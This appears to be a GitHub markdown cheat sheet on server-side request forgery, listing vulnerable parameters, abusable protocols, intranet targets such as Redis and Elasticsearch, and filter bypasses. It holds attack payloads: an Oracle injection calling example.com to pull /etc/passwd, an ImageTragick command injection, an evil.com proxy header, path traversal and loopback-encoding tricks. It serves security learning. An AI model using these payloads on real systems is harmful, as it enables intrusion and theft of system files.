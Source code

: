 # SSRF
Server Side Request Forge  
Bypass the firewall and grope through the intranet  

![ssrf](https://github.com/shinmao/Web-Security-Learning/blob/master/SSRF/screenshot/SSRF.png)  
1. Find the vulnerable place > 2. with Protocol > 3. Apply to deeper attack > 4. Bypass

# Find the vulnerable place
**Controllable** URL parameter：url, src, imgURL, share, wap, link  
share the content via URL  
translate the context with online translator  
load the pic with URL  
some api  
1. XXE(You can directly see in my XXE part)  
```php
<!ENTITY % file SYSTEM "file://url/xxx">
```
  
2. `file_get_contents($url)`(PHP)  
```php
$image = file_get_contents('http://self-ip');
```
[Day 20 - Stocking](https://www.ripstech.com/php-security-calendar-2017/#day-20)  
  
3. curl(PHP)  
in fact, from `curl -V` we can see the libcurl support many protocols  
  
4. Oracle UTL_HTTP  
```php
?id=1'||CTXSYS.DRITHSX.SN(user,substr(utl_http.request('http://example.com?download=/etc/passwd'),1,160))||'
```  
  
5. ImageTragick  
```php
...
fill 'url(https://example.com/";|ls "-la)'
...
```  
[ImageTragick](https://imagetragick.com/)  
CVE-2016-3718  
POC on Facebook  

6. Header HTTP proxy  
According to CGI, headers in the request would be replaced with env variables  
e.g. Host -> $HTTP_HOST, Proxy -> $HTTP_Proxy  
This is the vul  
```php
GET
...
Proxy: http://evil.com/
```  
hijack the http connection  

In addition to find the potential parameter, we also can set up a server or DNS logger. If we get request from the server side, there might be vul to SSRF somewhere.


# with Protocol  
![](https://farm2.staticflickr.com/1774/43295065584_6cfa758570_b.jpg)  
gopher is an awesome protocol to attack intranet service  
Jar is a protocol which can be used to create controllable temp file  
FTP or SMB can also be used on bruteforce of password  

# Apply to deeper attack  
Attack service built in intranet  
1. Struts2  
  
2. ElasticSearch - port:9200  
CVE-2014-3120  
CVE-2015-1427  
CVE-2015-3337  
```php
http://example.com:9200/_plugin/head/../../../../../../etc/passwd
```  
  
3. Neo4j, CouchDB, MongoDB  
Visit API -> modify settings -> RCE  
  
4. Tomcat - port:8005  
SSRF with gopher  
  
5. Zabbix - port:10050  
SSRF with gopher  
  
6. Redis - port:6379  
Write shell with gopher -> write SSH key with SAVE -> write crontab with SAVE -> SET to exploit again  

7. FastCGI - port:9000  
```php
gopher://example.com:9000/....
```

# Bypass  
I would check your schema, host, port  
* Bypass DNS limit:  
A special domain provider> `xip.io`  
DNS rebinding: use Round-Robin to bypass  
  
* Bypass ip limit:  
ip can be decimal, hexidecimal, or Octal  
```php
127.0.0.1
127.0.1
127.1
0.0.0.0
0.0
0
0x7f000001
2130706433
017700000001
```  
This tricks can be used to bypass wordpress protection on SSRF in CVE-2016-4029

## Reference
* Orange Slides

